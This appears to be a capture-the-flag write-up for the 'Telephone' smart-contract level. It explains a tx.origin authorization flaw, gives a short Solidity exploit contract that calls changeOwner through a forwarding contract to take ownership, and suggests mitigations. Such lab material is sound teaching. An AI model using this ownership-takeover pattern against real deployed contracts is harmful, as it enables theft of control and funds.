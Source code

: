 ```yaml
---
title: Level 4 - Telephone
slug: level-4
published: 05-16-2023
lastEdited:
---
```


## Objectives

1. Claim ownership of the contract.

## Vulnerabilities

### Bad access control

The critical function `changeOwner` will change the ownership if `tx.origin != msg.sender` which
can be easily recreated by anyone.

### tx.origin used for authorization

Using `tx.origin` for authorizing critical behavior can be exploited by malicious contract forwarding.

## Exploit

1. Create a malicious contract that will call `changeOwner` from the Telephone contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneHack {
    ITelephone target;

    constructor(address _targetAddress){
        target = ITelephone(_targetAddress);
    }

    function attack() external {
        target.changeOwner(msg.sender);
    }
}
```

2. Call the `attack` function transfer the ownership to yourself.

## Suggested mitigation

1. Remove all traces of `tx.origin` in the authorization logic since it's bad practice.
2. Adding a `onlyOwner` function modifier to `changeOwner`.

## Further reading

- SWC-115 - SWC - Authorization through tx.origin <ExternalLink href={"https://swcregistry.io/docs/SWC-115"} />
- Ownership library from OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/2.x/api/ownership"} />
